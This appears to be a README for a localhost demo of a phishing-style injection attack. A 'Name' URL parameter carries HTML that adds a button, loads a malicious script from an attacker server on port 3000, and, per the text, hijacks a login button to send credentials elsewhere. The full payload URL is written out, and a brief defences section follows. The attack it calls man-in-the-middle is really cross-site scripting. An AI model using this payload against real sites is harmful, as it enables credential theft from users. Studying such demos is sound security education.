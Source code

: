 # Perform Man In The Middle (MITM) attack using Javascript

## Install yarn and dependencies through 'yarn' or 'npm'

I prefer yarn over npm, but npm can be used as well. Whenever you wish to execute the command just replace 'npm' with 'yarn'.

Install dependencies through yarn:  
`yarn install`

## Lite-Server

Upon executing `yarn install` command, it installs the `lite-server` package/library in the project (node_modules).

***Lite-Server*** as the name suggests is the very light web server with minimum execution facility, purely meant to display web pages.

## Configuration

***package.json*** consists of project management and tunning configuration. We have defined two lite-server for our purpose for attacker and victim. 


## Execute Hacker 'Lite-Server'

We have configured the project (in package.json) to execute the lite-server on port 3000, for the attacker, using command `yarn run lite-server` using the `bs-config.json`.

Screenshot:  
![Screenshot](HackerLiteServer.png)


## Execute Victim 'Lite-Server'

We have configured the project (in package.json) to execute the lite-server on port 4000, for the attacker, using command `yarn run lite-server-victim` using the `bs-config-victim.json`.

Screenshot:  
![Screenshot](VictimLiteServer.png)


## Set the bait for Victim

We will set the bait for the Victim by emailing the victim with the chance to win prize on the legitimate webserver domain by changing the values in the parameter. The legitimate webserver running for the domain localhost:4000. 

URL/Link:  
`http://localhost:4000/?Name=John%20Doe%20you%20have%20Big%20Bonanza%20Offer:%20%3Cinput%20type=%27button%27%20title=%27Big%20Bonanza%20Offer%27%20value=%27Scratch%20Card%27%20onclick=%22if(document.getElementById(%27SomeFlag%27)==undefined)%20{%20maliciousScript%20=%20document.createElement(%27script%27);%20maliciousScript.src%20=%20%27http://localhost:3000/ManInTheMiddelAttack.js%27;%20document.body.appendChild(maliciousScript);%20someFlag%20=%20document.createElement(%27SomeFlag%27);%20someFlag.id%20=%20%27SomeFlag%27;%20document.body.appendChild(someFlag);%20alert(%27You%20will%20get%20an%20email%20notification%20for%20the%20offer%27);%20setTimeout(%20function()%20{%20injectManInTheMiddleScript();%20}%20,%201000);%20}%20%22%20/%3E`

URL Explanation:  
- We have not changed the domain name at all. 
- The hack is place as the value for the parameter 'Name'.
- The value of the 'Name' Parameter is:
    * John Doe you have Big Bonanza Offer: <input type='button' title='Big Bonanza Offer' value='Scratch Card' onclick="if(document.getElementById('SomeFlag')==undefined) { maliciousScript = document.createElement('script'); maliciousScript.src = 'http://localhost:3000/ManInTheMiddelAttack.js'; document.body.appendChild(maliciousScript); someFlag = document.createElement('SomeFlag'); someFlag.id = 'SomeFlag'; document.body.appendChild(someFlag); alert('You will get an email notification for the offer'); setTimeout( function() { injectManInTheMiddleScript(); } , 1000); } " />
- The value gets embedded as an innerHtml within the page performing the exploit as follows:  
![Screenshot](TransformmedInnerHtml.png)  
- Upon clicking the ***bait*** link will gets a message:  
    * Behind the scene a Malicious javascript file get attached to the web page  
      ![Screenshot](ExploitClick.png)  
      ![Screenshot](ButtonClick.png)  
    * The login button click functionality is replaced by a function Malicious javascript, which executes the login button click along with sending the secret detail to the other link or url  
    * Loading Script:  
      ![Screenshot](ScriptLoaded.png)  
    * Malicious Script by clicking on the bait button:  
      ![Screenshot](SilentlyListen.png)  
    * Malicious Script  
      ![Screenshot](FunctionInTheMiddle.png);
    * Execution of Legit Code along with Malicious Code  
      ![Screenshot](MaliciousCodeExecution.png)


## Steps to overcome this attack

- Never execute any long URL without reading them correctly even though the domain is legit
- Web developers should prohibit the user or innerHTML to display HTML. As we have seen it could be hacked in real life.
